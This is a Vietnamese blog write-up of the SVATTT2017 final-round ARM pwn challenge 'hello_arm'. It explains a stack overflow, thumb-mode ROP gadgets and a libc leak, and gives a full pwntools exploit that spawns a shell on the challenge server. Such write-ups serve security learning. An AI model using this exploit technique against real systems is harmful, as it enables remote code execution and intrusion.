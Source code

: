 ```yaml
---
layout: post
title: "[SVATTT2017 Final Round] [Daemon] [Pwn] hello_arm"
---
```


Sau khi thọt ở vòng sơ khảo với bài formatstring. Mình đã phục thù với bài daemon **noteservice** . Nhưng lại ngã với bài **hello_arm.**... .

Trong buổi thi thì BTC có cho file img arm để tạo env debug. Xui làm sao hôm đó load file đó lại không ra mạng được, không setup được gdb. Mình down src gdb về build nhưng đến cuối lại bị failed. Thế là hôm đó quỳ với bài này... 

Về nhà mình đã tự build img arm và setup peda-arm để debug.

Link các challenges đã được VNSEC public : `https://docs.google.com/spreadsheets/d/e/2PACX-1vQ3hmA1FHf-a2uymoaXk8Cu8yvji_0mYI2EnPbmSzRHoiWMwPuLXj_OpaLcqEtYHYepcI3GG3rEIpEM/pubhtml?gid=0&single=true`



Check file: 

```
hello_arm.1: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c81cfe892f89ccc0d55b9e5d4ec40048b00de0d6, stripped
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```



Quăng vào IDA thì dễ dàng thấy lỗi bof ở đây

```C
int sub_1054C()
{
  int v1; // [sp+0h] [bp+0h]

  puts("Overflow me.");
  read(0, &v1, 1024u); // <--- bof
  return puts("End");
}
```

![](https://i.imgur.com/fEKFqix.png)

ta thấy ins `SUB SP,SP, #0x80` với SP là reg stack pointer nên ta cần padding `0x84` để có thể overwrite địa chỉ trả về.

Bài này có bật ASLR trên server nên cần phải leak địa chỉ libc base trước. 

Để có thể leak được thì cần đưa địa chỉ GOT vào thanh ghi R0. Và cần một gadget dạng `pop {xxx,pc}` để đưa hàm cần gọi vào reg PC (program counter).

dùng ROPgadget để thử tìm gadget cần :

`ROPgadget --binary hello_arm`

`1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}` (popret)

nhưng không control được R0. 

Đến đây thì mình đã stuck. Nhưng chợt nhớ đến hint của BTC là **thumb2-mode** .

Sau khi tìm hiểu (`http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0344c/Beiiegaf.html` ) thì được biết rằng architecture **arm** có 3 loại instruction sets là : ARM, thumb và thumb2. ARM dùng instruction 32-bit, thumb dùng instruction 16-bit và thumb2 32 bit mixing giữa 2 loại này (hỗ trợ thumb trên 32-bit và ARM). 

Trong thumb2 mode thì có một quy định để biết instruction nào của mode nào (arm hay thumb) bằng cách (`https://stackoverflow.com/questions/37836861/jump-between-thumb-and-arm`  ) 

- nếu bit 0 của địa chỉ là 0 thì CPU sẽ execute dưới dạng arm code
- nếu bit 1 của địa chỉ là 1 thì CPU sẽ execute dưới dạng thumb code
- Nếu parse sai thì CPU sẽ báo lỗi 

Đây là lí do trong code mình có mấy đoạn `+1` (Qua debug mới thấy :)) )

Vì mặc định của của ROPgadget sẽ không hiện các instruction thumb nên cần phải thêm options `--thumb`

`ROPgadget --thumb --binary hello_arm`

Ở đây có 2 gadget mình cần là :

`0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr` (popR3)

`0x000105c6 : mov r0, r3 ; pop {r7, pc}` (movR0)

Payload mình sẽ là :

- popret 
- popR3
- got read
- mov R0 ,R3 
- plt puts
- return to main

```python
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(file.got['read']) # parameter
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(file.symbols['puts']) # call function
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
```

Sau khi leak được libc, tiếp theo chỉ cần tính các offset binsh và system để call system("/bin/sh")

script : 

```python
from pwn import *

file = ELF('hello_arm.1')
libc = ELF('./libc-2.23.so')



def main(argv):
	if len(argv)<2:
		r = remote('localhost', 31335)
	else:
		r = remote('119.81.181.254',31335)

	ret2main = 0x0001054C

	r.recvuntil('Overflow me.\n')
	
	popret = 0x1051c
	# 1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}
	popr3=0x000105fc
	#0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr
	movr0=0x000105c6
	#0x000105c6 : mov r0, r3 ; pop {r7, pc}
	
	#pause()
	
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(file.got['read'])
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(file.symbols['puts'])
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
	
	r.sendline(payload)
	r.recvuntil("End")
	print r.recvline()

	libc.address=u32(r.recv(4))-libc.symbols['read']
	syst=libc.symbols['system']
	binsh=next(libc.search('/bin/sh\x00'))

	log.info("libc base : " + hex(libc.address))
	log.info("system : " + hex(syst))
	log.info("binsh : " + hex(binsh))

	
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(binsh)
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(syst)
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
	
	r.recvuntil('Overflow me.\n')
	r.sendline(payload)

	r.interactive()

if __name__ == '__main__':
	main(sys.argv)
```



![a](https://i.imgur.com/aW7AlOQ.png)

Bài này cũng không khó, chủ yếu phải setup được môi trường ... hi vọng lần sau sẽ không ngã với arm nữa ...

